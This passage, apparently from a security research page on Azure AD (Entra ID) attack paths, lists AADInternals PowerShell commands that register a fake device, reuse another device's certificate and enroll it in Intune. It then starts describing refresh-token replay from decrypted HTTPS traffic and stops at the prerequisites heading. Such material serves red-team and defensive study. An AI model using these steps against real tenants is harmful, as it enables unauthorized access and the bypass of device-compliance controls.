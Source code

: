     # Alternate: Use Credentials or Temporary Access Pass
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    
    # "Join" the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "MyFakePc" -DeviceType "Windows" -OSVersion "10.0.22000.613"
    
    $AadJoinedDeviceId = Read-Host -Prompt "Device ID of the previous AAD-joined device"
    Join-AADIntLocalDeviceToAzureAD -UserPrincipalName $UserPrincipalName -PfxFileName .\$AadJoinedDeviceId.pfx
    
    # Get access token with device id claim
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\$AadJoinedDeviceId.pfx -SaveToCache
    
    # Enroll the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "MyFakePc"
    ```
    

### Refresh Token (RT)

![Untitled](./media/replay-prt/PrtReplay3.png)

#### Replay Refresh Token from a device with decrypted HTTPS traffic

**Attack Description**

An attacker is capturing PowerShell process traffic from a compliant device and decrypts HTTPS communication to login.microsoftonline.com.

**Pre-requisites**
